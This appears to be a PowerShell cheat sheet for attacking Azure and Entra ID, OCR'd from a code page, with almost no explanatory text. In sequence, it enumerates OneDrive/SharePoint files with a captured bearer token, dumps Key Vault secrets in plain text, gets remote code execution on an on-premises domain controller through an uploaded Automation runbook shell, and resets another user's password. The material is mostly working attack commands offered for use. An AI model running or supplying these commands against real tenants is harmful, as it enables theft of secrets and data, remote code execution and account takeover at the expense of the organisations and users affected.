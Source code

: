 ## Enumerate SharePoint
```powershell
# Enumerate Root folder
$accessToken = 'eyJ0eXAiOiJKV1Qi...[SNIP]...1bpJg3QtPS8MO2'

$URi = 'https://graph.microsoft.com/v1.0/me/drive/root/children' 
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{ 'Authorization' = "Bearer $accessToken" } }
(Invoke-RestMethod @RequestParams).value

# Enumerate a the MyPat sub-folder
$URi = 'https://graph.microsoft.com/v1.0/me/drive/root:/MyPAT:/children'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{ 'Authorization' = "Bearer $accessToken" } }
(Invoke-RestMethod @RequestParams).value
```

## Dump Secerets Vault
```powershell
Get-AzKeyVault | fl *

Get-AzKeyVaultSecret -VaultName Paul-webapp-KeyVault

Get-AzKeyVaultSecret -VaultName Paul-webapp-KeyVault  -Name paul-localkeys -AsPlainText | fl *
```

## Gaining RCE from RunBooks
```powershell
Import-AzAutomationRunbook -Name Wowieee -Path C:\tools\shell.ps1 -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Type PowerShell -Force -Verbose

Publish-AzAutomationRunbook -RunbookName Wowieee -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Verbose 

Start-AzAutomationRunbook -RunbookName Wowieee -RunOn OnpremInternalDC -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Verbose
```

## Use Powershell AZ to reset a user password
```powershell
$password = "MyStr0ngPassw0rd1" | ConvertTo-SecureString -AsPlainText -Force

(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq
"DevOpsApprover@example.onmicrosoft.com"}).ObjectId |
Set-AzureADUserPassword -Password $Password -Verbose
```
